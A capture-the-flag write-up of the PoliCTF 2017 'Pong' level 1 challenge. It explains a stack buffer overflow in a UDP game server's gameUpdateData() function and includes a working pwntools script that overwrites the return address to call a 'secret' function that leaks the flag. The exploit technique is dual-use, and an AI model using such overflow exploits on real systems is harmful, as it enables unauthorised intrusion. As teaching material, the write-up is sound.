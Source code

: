 ```yaml
---
layout: post
title:  "PoliCTF 2017 - Pong(lvl 1)"
date:   2017-07-09 21:10
categories: [PoliCTF2017]
tags: [Pwn]
author: jbz
---
```


> So much pixels and fun!

> nc pong.chall.polictf.it 31337 or nc pong2.chall.polictf.it 31337

[Download](https://github.com/jbzteam/CTF/blob/master/PoliCTF2017/Pong/pong1.tgz?raw=true)


There was a stack bof vulnerability in function `gameUpdateData()`.

The user input delivered to the UDP server was copied to a stack variable without checking its size. This lead to a memory corruption. 

The given binary contains a function called `secret` which open the file `flag` sending its content back to the socket.

To get that content from the client side we first sent the payload requested in order to trigger the  function `setupListener`, then we sent the payload to exploit the memory corruption. 

In order to get the flag sent from the server, we need to send the triggering payload before the connection is closed...but hey wait that's is UDP, it's connectionless! 

Moreover, there was enought time to trigger the corruption since the first payload triggers a function which sends back to the client a lot of data before to exit so, we just need to send the first payload (to trigger `setupListener`) followed immediately by the second one (to trigger mem corr), without waiting for any reply in-between.

```
from pwn import *

secret = 0x4045d1

def start_game():
#	p = remote('localhost', 31337)
	p = remote('pong2.chall.polictf.it', 31337)
	p.sendline("Lv1")
	p.recvuntil("OK ")
	s = p.recvline()
	c_port = int(s.strip())
	return c_port

def play_pong(port):
	print "connecting to pong UDP server at %d" % port
#	p = remote('localhost', port, typ="udp")
	p = remote('pong2.chall.polictf.it', port, typ="udp")
	return p

def send_to_pong(p, pay, stop=None): 
	p.sendline(pay)
	if stop:
		print p.recv()

port = start_game()
p = play_pong(port)

pay = "-1|" + "2" * 21
pay += p64(secret)
send_to_pong(p, pay, False)

pay = "1" + "|" + "2" * 22 
pay += p64(secret)
send_to_pong(p, pay, True)
```


